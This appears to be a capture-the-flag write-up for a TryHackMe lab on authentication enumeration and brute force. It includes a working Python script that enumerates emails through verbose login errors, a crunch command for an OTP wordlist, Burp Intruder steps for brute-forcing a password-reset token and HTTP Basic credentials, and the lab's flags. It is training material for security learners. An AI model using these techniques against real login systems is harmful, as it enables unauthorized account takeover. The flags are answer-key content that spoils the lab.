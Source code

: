 # Enumeration & Brute Force

**URL:** https://tryhackme.com/r/room/enumerationbruteforce

## Authentication Enumeration
In order to perform the brute force attacks, we must first figure out the authentication mechanism. The goal is to learn how everything is conncected, providing a blueprint for potential attacks.
  1. We must identify valid usernames or emails
  2. Identify passwords policies
These are the two main things we need to focus for the enumeration processes.
THere are several places to look for:

**Registration page**
- This is where we can enumerate both usernames and passwords policies. If a username has already existed, the application will prevent us from registering a new user using that same username.
- Similarly, we can find out password policies by trying different combinations. The errors displayed by the applications provide us with the password policies

**Password reset features**
- Password reset mechanisms are implemented differently on various applications. Some unintentional behavior / misconfiguration may provide sensitive information. For example, like registration page, when trying to reset password for a non-existing user, the application may display an error stating the user does not exist. We can leverage this message to exploit usernames (as existing users won't display these kinds of messages).

**Verbose error**
- These are errors messages displayed when users interact with the applications. "Users not found", "invalid token", "incorrect passwords" are amongst the most commonly used, which allows attackers to gain more information about the authentication process.

To enumerate the email:
1. Create a Python script `script.py`

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

2. Download the email list from this [repository](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt)
3. Run the script against the downloaded text file in step 2
```bash
python3 script.py usernames_gmail.com.txt
```
And we found the email.

**- What type of error messages can unintentionally provide attackers with confirmation of valid usernames?**

`-> Verbose error`

**- What is the valid email address from the list?**

`-> canderson@gmail.com`

## Exploit vulnerability password reset logic
- Go to `http://enum.thm/labs/predictable_tokens/forgot.php` and submit a password reset for `admin@admin.com`
- Create an `otp.txt` file to bruteforce the token
```bash
crunch 3 3 -t %%% -s 100 -e 200 -o otp.txt
```
- Make a GET request to `http://enum.thm/labs/predictable_tokens/reset_password.php?token=123` and intercept the request using BurpSuite and send it to Intruder
- In Burp Suite, set the position `123` to be brute-forced
  
![image](https://github.com/user-attachments/assets/4b5e054d-d61c-4cbe-b5e6-c77793d2d68d)

- In the **Payloads** tab, load the `otp.txt` created in the previous step

  ![image](https://github.com/user-attachments/assets/e227b679-6b35-4458-b1ca-964f1315134e)

- In the **Settings** tab, add "Ivalid token" error message to filter the request that doesn't contain that message. This helps use quickly identify the valid token

![image](https://github.com/user-attachments/assets/3013ba97-9f22-4cfd-8fd6-2026c616a7d0)

- Once the valid token is found, view the Response body, which provides the new password for `admin@admin.com`. Use it to log in and retrieve the flag.

**- What is the flag?**

`-> THM{50_pr3d1ct4BL333!!}`

## Exploit Basic HTTP Authentication
- Go to the `http://enum.thm/labs/basic_auth`
- Attempt to login with credentials `admin:password`
- Intercept the traffic in Burp Suite
- In the `Authorization` field, highlight the value next to "Basic"
  
  ![image](https://github.com/user-attachments/assets/23d443e4-ee36-4b3e-b2bc-107d9c9a849b)

- Notice that on the right side under the **Inspector** panel, the text is decoded from Base64, which results from the login credentials.
- Send the request to Intruder to bruteforce
- Highlight the encoded text we just inspected so it can be brute-forced

![image](https://github.com/user-attachments/assets/52bf6e33-783f-4b0c-a2a9-fa9099f07d11)

- In the **Payloads** tab, load the password text from `/usr/share/SecLists/Passwords/Common-Credentials/500-top-worst-passwords.txt`

![image](https://github.com/user-attachments/assets/8ff67250-1626-4e4f-b5c1-a244036dee56)

- Scroll down to the **Payload Processing** section, add a rule. The first rule we add is `**Add prefix**` with value `admin:`

![image](https://github.com/user-attachments/assets/5f84b029-efb9-4914-998c-afb604428226)

- Add the second rule to Base64 encode the whole payload. The final result of the  **Payload Process** should look like this:

![image](https://github.com/user-attachments/assets/637898fc-a2d6-450d-b8e0-82a1f6de3b55)

- Start the attack, and we should get a valid payload to login for `admin`. Decode it and we should get the password.

**- What is the flag?**

`-> THM{b4$$1C_AuTTHHH}`
